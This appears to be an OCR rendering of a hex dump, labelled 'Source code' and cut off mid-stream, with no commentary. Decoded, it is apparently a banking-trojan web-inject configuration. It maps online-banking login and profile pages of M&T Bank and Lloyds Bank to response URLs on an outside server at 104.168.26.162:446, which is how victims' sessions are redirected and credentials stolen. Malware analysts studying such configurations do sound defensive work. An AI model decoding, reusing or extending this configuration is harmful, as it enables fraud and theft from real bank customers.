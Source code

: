 62 78 70 66 36 37 30 78 44 5A 79 3C 2F 68 6C 3E
0A 3C 70 72 69 3E 31 30 30 3C 2F 70 72 69 3E 0A
3C 73 71 3E 32 3C 2F 73 71 3E 0A 3C 2F 64 69 6E
6A 3E 0A 3C 64 69 6E 6A 3E 0A 3C 6C 6D 3E 68 74
74 70 73 3A 2F 2F 6F 6E 6C 69 6E 65 62 61 6E 6B
69 6E 67 2E 6D 74 62 2E 63 6F 6D 2F 43 75 73 74
6F 6D 65 72 53 65 72 76 69 63 65 2F 4D 79 50 72
6F 66 69 6C 65 45 64 69 74 3C 2F 6C 6D 3E 0A 3C
68 6C 3E 68 74 74 70 73 3A 2F 2F 31 30 34 2E 31
36 38 2E 32 36 2E 31 36 32 3A 34 34 36 2F 72 65
73 70 6F 6E 73 65 2E 70 68 70 3F 73 3D 31 35 33
36 31 37 36 35 39 30 36 37 39 35 36 34 26 69 64
3D 44 41 53 74 71 49 31 63 63 44 53 76 4C 6B 79
32 70 44 48 6A 3C 2F 68 6C 3E 0A 3C 70 72 69 3E
31 30 30 3C 2F 70 72 69 3E 0A 3C 73 71 3E 32 3C
2F 73 71 3E 0A 3C 2F 64 69 6E 6A 3E 0A 3C 2F 69
67 72 6F 75 70 3E 0A 3C 69 67 72 6F 75 70 3E 0A
3C 64 69 6E 6A 3E 0A 3C 6C 6D 3E 2A 2F 72 63 72
64 2F 31 35 33 34 38 37 30 32 31 34 37 33 32 32
38 36 2A 3C 2F 6C 6D 3E 0A 3C 68 6C 3E 68 74 74
70 73 3A 2F 2F 31 30 34 2E 31 36 38 2E 32 36 2E
31 36 32 3A 34 34 36 2F 72 65 73 70 6F 6E 73 65
2F 72 63 72 64 2E 70 68 70 3F 73 3D 31 35 33 34
38 37 30 32 31 34 37 33 32 32 38 36 3C 2F 68 6C
3E 0A 3C 70 72 69 3E 31 30 30 3C 2F 70 72 69 3E
0A 3C 73 71 3E 32 3C 2F 73 71 3E 0A 3C 2F 64 69
6E 6A 3E 0A 3C 64 69 6E 6A 3E 0A 3C 6C 6D 3E 68
74 74 70 73 3A 2F 2F 6F 6E 6C 69 6E 65 2E 6C 6C
6F 79 64 73 62 61 6E 6B 2E 63 6F 2E 75 6B 2F 70
65 72 73 6F 6E 61 6C 2F 70 72 69 6D 61 72 79 6C
6F 67 69 6E 3C 2F 6C 6D 3E 0A 3C 68 6C 3E 68 74
74 70 73 3A 2F 2F 31 30 34 2E 31 36 38 2E 32 36
2E 31 36 32 3A 34 34 36 2F 72 65 73 70 6F 6E 73
65 2E 70 68 70 3F 73 3D 31 35 33 34 38 37 30 32
31 34 37 33 32 32 38 36 26 69 64 3D 67 41 6C 41
4C 76 68 47 37 67 72 59 6B 6A 56 6D 65 70 78 39
3C 2F 68 6C 3E 0A 3C 70 72 69 3E 31 30 30 3C 2F
70 72 69 3E 0A 3C 73 71 3E 32 3C 2F 73 71 3E 0A
3C 2F 64 69 6E 6A 3E 0A 3C 64 69 6E 6A 3E 0A 3C
6C 6D 3E 68 74 74 70 73 3A 2F 2F 73 65 63 75 72
65 2E 6C 6C 6F 79 64 73 62 61 6E 6B 2E 63 6F 2E
75 6B 2F 70 65 72 73 6F 6E 61 6C 2F 61 2F 6C 6F
67 6F 6E 2F 65 6E 74 65 72 6D 65 6D 6F 72 61 62
6C 65 69 6E 66 6F 72 6D 61 74 69 6F 6E 2E 6A 73
70 2A 3C 2F 6C 6D 3E 0A 3C 68 6C 3E 68 74 74 70
73 3A 2F 2F 31 30 34 2E 31 36 38 2E 32 36 2E 31
36 32 3A 34 34 36 2F 72 65 73 70 6F 6E 73 65 2E
70 68 70 3F 73 3D 31 35 33 34 38 37 30 32 31 34
37 33 32 32 38 36 26 69 64 3D 6C 5A 47 35 42 4C
51 67 31 73 36 62 70 34 32 39 30 4B 7A 57 3C 2F
68 6C 3E 0A 3C 70 72 69 3E 31 30 30 3C 2F 70 72
69 3E 0A 3C 73 71 3E 32 3C 2F 73 71 3E 0A 3C 2F
64 69 6E 6A 3E 0A 3C 2F 69 67 72 6F 75 70 3E 0A
3C 69 67 72 6F 75 70 3E 0A 3C 64 69 6E 6A 3E 0A
3C 6C 6D 3E 2A 2F 72 63 72 64 2F 31 35 34 39 38
38 37 39 34 39 35 32 39 30 37 35 2A 3C 2F 6C 6D
3E 0A 3C 68 6C 3E 68 74 74 70 73 3A 2F 2F 31 30
34 2E 31 36 38 2E 32 36 2E 31 36 32 3A 34 34 36
2F 72 65 73 70 6F 6E 73 65 2F 72 63 72 64 2E 70
68 70 3F 73 3D 31 35 34 39 38 38 37 39 34 39 35
32 39 30 37 35 3C 2F 68 6C 3E 0A 3C 70 72 69 3E
31 30 30 3C 2F 70 72 69 3E 0A 3C 73 71 3E 32 3C
2F 73 71 3E 0A 3C 2F 64 69 6E 6A 3E 0A 3C 64 69
6E 6A 3E 0A 3C 6C 6D 3E 2A 69 63 6F 6E 6E 65 63